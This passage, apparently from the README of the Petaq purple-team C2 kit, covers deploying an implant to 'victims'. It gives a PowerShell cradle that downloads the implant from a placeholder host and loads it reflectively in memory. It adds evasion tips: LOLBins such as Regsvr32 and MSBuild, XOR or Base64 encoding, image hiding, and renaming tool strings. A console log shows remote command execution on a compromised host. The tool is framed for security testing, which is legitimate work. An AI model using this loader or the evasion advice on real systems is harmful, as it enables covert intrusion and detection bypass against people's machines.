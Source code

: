 # Deployment to the Victims
Even though it's too noisy, running the following Powershell line would load the compiled Petaq Implant as reflected assembly for testing. You can compile the Petaq Implant as above, then place it into the wwwroot folder of Petaq Service as index.html. So the url would point to the binary to load directly.
```
powershell –c $m=new-object net.webclient;$Url='http://PETAQIMPLANTHOSTEDSITE/';$dba=$m.downloaddata($Url);$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))
```

I suggest you to some operational security measures for any production or evasive testing. 
* Consider InstallUtil, Regsvr32, RegAsm, DotNettoJs, RunDLL32, WMI or MSBuild for evasive initial execution.
* Consider using XOR for the implant to convert, Base64 encoding or hiding it in an image file to avoid network detections.
* Consider replacing some Petaq words in the source code. Even though currently 

# In Action
```
2020-5-18---16-41-36
Hosting environment: Development
Content root path: /tmp/petaqC2/petaqservice
Now listening on: https://0.0.0.0:443
Now listening on: http://0.0.0.0:80
Application started. Press Ctrl+C to shut down.
Petaq - Purple Team Simulation Kit
\# Creating Logs/2020-5-18---16-41-36 folder.
Log file Logs/2020-5-18---16-41-36/29B0OAZEX3CEAW2V2UAQ.txt created.
\# Registering the implant...
Implant registration for 29B0OAZEX3CEAW2V2UAQ is done.
Links are adding to the implant...
\# list
Session ID		User Name		Hostname	IP Address	Status		Link URI
29B0OAZEX3CEAW2V2UAQ	SHEEP\dev		Sheep		172.16.121.142	connected	ws://172.16.121.1:80/ws
\# use 29B0OAZEX3CEAW2V2UAQ
Use 'back' instruction for the main menu.
29B0OAZEX3CEAW2V2UAQ # exec whoami
29B0OAZEX3CEAW2V2UAQ # Waiting for the process to complete...
29B0OAZEX3CEAW2V2UAQ # sheep\dev

29B0OAZEX3CEAW2V2UAQ # exit
\# \# Session 29B0OAZEX3CEAW2V2UAQ is disconnected.
\#
\# list
Session ID		User Name		Hostname	IP Address	Status		Link URI
29B0OAZEX3CEAW2V2UAQ	SHEEP\dev		Sheep		172.16.121.142	disconnected	ws://172.16.121.1:80/ws
\# exit
Also use CTRL+C for stopping the implant services.
CApplication is shutting down...
```
